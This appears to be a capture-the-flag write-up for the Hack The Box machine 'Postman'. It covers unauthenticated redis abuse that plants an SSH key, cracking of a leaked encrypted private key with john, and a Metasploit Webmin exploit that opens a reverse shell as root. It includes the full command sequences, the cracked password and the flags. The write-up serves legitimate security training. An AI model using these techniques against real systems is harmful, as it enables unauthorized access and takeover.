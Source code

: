 # Postman

Postman was an easy linux box that required use of the redis service for unauthenticated shell and then we use another exploit on webmin for root.

>Skills involved in this box
- enumeration
- redis exploitation
- priv esc

# USER

>Nmap

```bash
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 46:83:4f:f1:38:61:c0:1c:74:cb:b5:d1:4a:68:4d:77 (RSA)
|   256 2d:8d:27:d2:df:15:1a:31:53:05:fb:ff:f0:62:26:89 (ECDSA)
|_  256 ca:7c:82:aa:5a:d3:72:ca:8b:8a:38:3a:80:41:a0:45 (ED25519)
80/tcp    open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: The Cyber Geek's Personal Website
6379/tcp  open  redis   Redis key-value store 4.0.9
10000/tcp open  http    MiniServ 1.910 (Webmin httpd)
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We can see from our nmap that the ip is running port 6379 for redis, this is an instant alarm that we need to use that as redis is a rare occurance in htb which makes the path slighty more obvious.

We run a dirbuster but nothing interesting occured after looking at the output.

We head over to http://postman.htb:10000 to check whats there. It gives us a redirect to a login page for webmin.
The version is `MiniServ/1.910`

There were a few exploits listed with searchsploit o exploit-db but none of them worked for the webadmin either not on this box or needed creds so at this stage wasnt possible.

>Exploiting redis using redis-cli

If you dont already have this installed you can install it with `sudo apt-get install redis-server`

i will show the exploitation steps below:
```bash
ssh-keygen on our box.
chmod 400 /home/kali/.ssh/id_rsa.pub
in redis:

kali@kali:~/boxes/postman$ redis-cli -h 10.10.10.160
10.10.10.160:6379> CONFIG SET dbfilename "authorized_keys"
OK
10.10.10.160:6379> CONFIG SET dir "/var/lib/redis/.ssh"
OK
10.10.10.160:6379> flushall
OK
10.10.10.160:6379> exit

on our box:

kali@kali:~/boxes/postman$ echo -e '\n\n' >> blob.txt
kali@kali:~/boxes/postman$ cat ~/.ssh/id_rsa.pub >> blob.txt
kali@kali:~/boxes/postman$ echo -e '\n\n' >> blob.txt

Last step:

kali@kali:~/boxes/postman$ cat blob.txt | redis-cli -h 10.10.10.160 -x set ssh

kali@kali:~/boxes/postman$ redis-cli -h 10.10.10.160 save
```
Then we simply ssh into the box as redis using our private key. `ssh -i /home/kali/.ssh/id_rsa redis@10.10.10.160`

Reading `/etc/passwd` reveals the user Matt:
```bash
Matt:x:1000:1000:,,,:/home/Matt:/bin/bash
redis:x:107:114::/var/lib/redis:/bin/bash
```
So we assume we have to priv esc to matt in some sort of way.

After enumerating for a while we find an interesting file in `/opt`.
```bash
redis@Postman:~$ cd /opt
redis@Postman:/opt$ ls -la
total 12
drwxr-xr-x  2 root root 4096 Sep 11  2019 .
drwxr-xr-x 22 root root 4096 Aug 25  2019 ..
-rwxr-xr-x  1 Matt Matt 1743 Aug 26  2019 id_rsa.bak
redis@Postman:/opt$ cat id_rsa.bak
-----BEGIN RSA PRIVATE KEY-----
Proc-Type: 4,ENCRYPTED
DEK-Info: DES-EDE3-CBC,73E9CEFBCCF5287C

JehA51I17rsCOOVqyWx+C8363IOBYXQ11Ddw/pr3L2A2NDtB7tvsXNyqKDghfQnX
cwGJJUD9kKJniJkJzrvF1WepvMNkj9ZItXQzYN8wbjlrku1bJq5xnJX9EUb5I7k2
7GsTwsMvKzXkkfEZQaXK/T50s3I4Cdcfbr1dXIyabXLLpZOiZEKvr4+KySjp4ou6
cdnCWhzkA/TwJpXG1WeOmMvtCZW1HCButYsNP6BDf78bQGmmlirqRmXfLB92JhT9
1u8JzHCJ1zZMG5vaUtvon0qgPx7xeIUO6LAFTozrN9MGWEqBEJ5zMVrrt3TGVkcv
EyvlWwks7R/gjxHyUwT+a5LCGGSjVD85LxYutgWxOUKbtWGBbU8yi7YsXlKCwwHP
UH7OfQz03VWy+K0aa8Qs+Eyw6X3wbWnue03ng/sLJnJ729zb3kuym8r+hU+9v6VY
Sj+QnjVTYjDfnT22jJBUHTV2yrKeAz6CXdFT+xIhxEAiv0m1ZkkyQkWpUiCzyuYK
t+MStwWtSt0VJ4U1Na2G3xGPjmrkmjwXvudKC0YN/OBoPPOTaBVD9i6fsoZ6pwnS
5Mi8BzrBhdO0wHaDcTYPc3B00CwqAV5MXmkAk2zKL0W2tdVYksKwxKCwGmWlpdke
P2JGlp9LWEerMfolbjTSOU5mDePfMQ3fwCO6MPBiqzrrFcPNJr7/McQECb5sf+O6
jKE3Jfn0UVE2QVdVK3oEL6DyaBf/W2d/3T7q10Ud7K+4Kd36gxMBf33Ea6+qx3Ge
SbJIhksw5TKhd505AiUH2Tn89qNGecVJEbjKeJ/vFZC5YIsQ+9sl89TmJHL74Y3i
l3YXDEsQjhZHxX5X/RU02D+AF07p3BSRjhD30cjj0uuWkKowpoo0Y0eblgmd7o2X
0VIWrskPK4I7IH5gbkrxVGb/9g/W2ua1C3Nncv3MNcf0nlI117BS/QwNtuTozG8p
S9k3li+rYr6f3ma/ULsUnKiZls8SpU+RsaosLGKZ6p2oIe8oRSmlOCsY0ICq7eRR
hkuzUuH9z/mBo2tQWh8qvToCSEjg8yNO9z8+LdoN1wQWMPaVwRBjIyxCPHFTJ3u+
Zxy0tIPwjCZvxUfYn/K4FVHavvA+b9lopnUCEAERpwIv8+tYofwGVpLVC0DrN58V
XTfB2X9sL1oB3hO4mJF0Z3yJ2KZEdYwHGuqNTFagN0gBcyNI2wsxZNzIK26vPrOD
b6Bc9UdiWCZqMKUx4aMTLhG5ROjgQGytWf/q7MGrO3cF25k1PEWNyZMqY4WYsZXi
WhQFHkFOINwVEOtHakZ/ToYaUQNtRT6pZyHgvjT0mTo0t3jUERsppj1pwbggCGmh
KTkmhK+MTaoy89Cg0Xw2J18Dm0o78p6UNrkSue1CsWjEfEIF3NAMEU2o+Ngq92Hm
npAFRetvwQ7xukk0rbb6mvF8gSqLQg7WpbZFytgS05TpPZPM0h8tRE8YRdJheWrQ
VcNyZH8OHYqES4g2UF62KpttqSwLiiF4utHq+/h5CQwsF+JRg88bnxh2z2BD6i5W
X+hK5HPpp6QnjZ8A5ERuUEGaZBEUvGJtPGHjZyLpkytMhTjaOrRNYw==
-----END RSA PRIVATE KEY-----
```
It seems to be an old ssh key, lets see if we can crack it using `ssh2john.py`.
```/usr/share/john/ssh2john.py id_rsa > hash.txt```
```bash
kali@kali:~/boxes/postman$ sudo john -w=/home/kali/rockyou.txt hash.txt
[sudo] password for kali: 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 1 for all loaded hashes
Cost 2 (iteration count) is 2 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
computer2008     (id_rsa)
```
And it worked! We get the password `computer2008` as the password for Matt.

We try reloging in with ssh as matt but it doesnt work.
We find if we just use `su Matt` and input the password it works completely fine. We then read our user flag.
```bash
edis@Postman:/opt$ su matt
No passwd entry for user 'matt'
redis@Postman:/opt$ su MAtt
No passwd entry for user 'MAtt'
redis@Postman:/opt$ su Matt
Password: 
Matt@Postman:/opt$ cd /home/Matt
Matt@Postman:~$ ls
user.txt
Matt@Postman:~$ cat user.txt
517ad0ec2458ca97af8d93aac08a2f3c
```

# ROOT

It turns out theese credentials work on the site for webmin so we can use the metasploit module that we saw earlier as we now have the needed creds to do so.

```bash
msf5 > use exploit/linux/http/webmin_packageup_rce
msf5 exploit(linux/http/webmin_packageup_rce) > show options

Module options (exploit/linux/http/webmin_packageup_rce):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   PASSWORD                    yes       Webmin Password
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'
   RPORT      10000            yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       Base path for Webmin application
   USERNAME                    yes       Webmin Username
   VHOST                       no        HTTP server virtual host


Payload options (cmd/unix/reverse_perl):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Webmin <= 1.910


msf5 exploit(linux/http/webmin_packageup_rce) > set PASSWORD computer2008 
PASSWORD => computer2008
msf5 exploit(linux/http/webmin_packageup_rce) > set USERNAME Matt
USERNAME => Matt
msf5 exploit(linux/http/webmin_packageup_rce) > set rhosts 10.10.10.160
rhosts => 10.10.10.160
msf5 exploit(linux/http/webmin_packageup_rce) > set LHOST 10.10.xx.xx
LHOST => 10.10.14.5
msf5 exploit(linux/http/webmin_packageup_rce) > set SSL true
[!] Changing the SSL option's value may require changing RPORT!
SSL => true
msf5 exploit(linux/http/webmin_packageup_rce) > run

[*] Started reverse TCP handler on 10.10.xx.xx:4444 
[+] Session cookie: xxxxxxxxxxxxxxxxxxxxxxxxxxxxx
[*] Attempting to execute the payload...
[*] Command shell session 1 opened (10.10.xx.xx:4444 -> 10.10.10.160:53994) at 2020-06-13 11:34:22 -0400
id

uid=0(root) gid=0(root) groups=0(root)
cat /root/root.txt
a257741c5bed8be7778c6ed95686ddce

```
Thanks for reading hope you enjoyed.




